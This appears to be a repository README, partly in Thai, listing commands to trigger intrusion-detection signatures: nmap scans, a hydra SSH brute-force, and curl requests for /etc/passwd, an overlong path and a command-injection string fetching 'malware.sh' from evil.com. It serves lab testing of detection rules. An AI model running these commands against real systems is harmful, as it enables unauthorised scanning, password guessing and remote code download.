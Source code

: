 # Scan Signature demo
```bash
sudo apt install nmap
```
```bash
nmap [subnet]
```
```bash
nmap -p 22,80,443 [ip address]
```
```bash
sudo nmap -sS [ip address]
```
```bash
sudo nmap -sF [ip address]
```

# Brute force Signature demo

```bash
sudo apt install hydra
```
```bash
hydra -l [username] -P /path/to/passwords.txt ssh://[ip address]
```
## Exploit Signature demo 
- หากเป็น http ใช้คำสั่งตามด้านล่างได้เลย
- หากเป็น https ให้เปลี่ยนที่ตัวคำสั่งด้านล่างให้เป็น https ด้วย
- หากเป็น Self-signed cert  ให้เติม -k หลัง curl ด้วย

```bash
curl -A "sqlmap/1.5" http://[ip address]:[port]/test
```
```bash
curl http://[ip address]:[port]/etc/passwd
```
```bash
curl http://[ip address]:[port]/etc/passwd
```
```bash
curl http://[ip address]:[port]/$(python3 -c "print('A'*200)")
```
```bash
curl "http://[ip address]:[port]/?input=hello%3Bwget%20http://evil.com/malware.sh"
```

## Server side prepare http
```bash
python3 -m http.server [port]
```